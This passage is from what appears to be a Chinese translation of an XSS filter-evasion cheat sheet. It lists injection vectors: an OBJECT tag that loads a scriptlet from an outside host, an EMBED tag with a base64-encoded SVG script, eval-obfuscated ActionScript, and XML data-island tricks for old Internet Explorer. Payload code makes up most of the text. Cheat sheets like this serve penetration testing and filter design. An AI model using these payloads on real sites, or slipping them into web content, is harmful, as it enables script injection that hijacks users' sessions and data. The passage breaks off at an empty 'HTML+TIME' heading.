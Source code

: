 * * *

### OBJECT标签

如果允许objects标签，你也可以注入病毒payloads去感染用户。类似于APPLET标签。这个链接文件是一个包含xss代码的html文件。

```
<OBJECT TYPE="text/x-scriptlet" DATA="http://ha.ckers.org/scriptlet.html"></OBJECT>
```

* * *

### 使用一个你可以载入包含有xss代码的flash文件的 EMBED 标签

点击这个demo，如果你加入属性allowScriptAccess="never" and allownetworking="internal"他可以缓解这个风险（谢谢Jonathan Vanasco 的这个信息）

```
<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>
```

* * *

### 使用在flash中的ActionScript可以混淆你的xss向量

```
a="get";
b="URL(\"";
c="javascript:";
d="alert('XSS');\")";
eval(a+b+c+d);
```

* * *

### CDATA混淆的 XML数据岛

这个xss向量尽可以在IE 和使用了ie渲染引擎的 Netscape 8.1 下工作。它是 Sec Consult在审计雅虎时发现。

```
<XML SRC="xsstest.xml" ID=I></XML>
<SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>
```

* * *

### 使用XML数据岛生成含有javascript代码的当前域xml文件

它是相同的同上面仅仅代替XML文件为当前域文件。你可以看到结果在下面。<span datasrc="#I" datafld="C" dataformatas="HTML"></span>

* * *

### HTML+TIME 在XML中
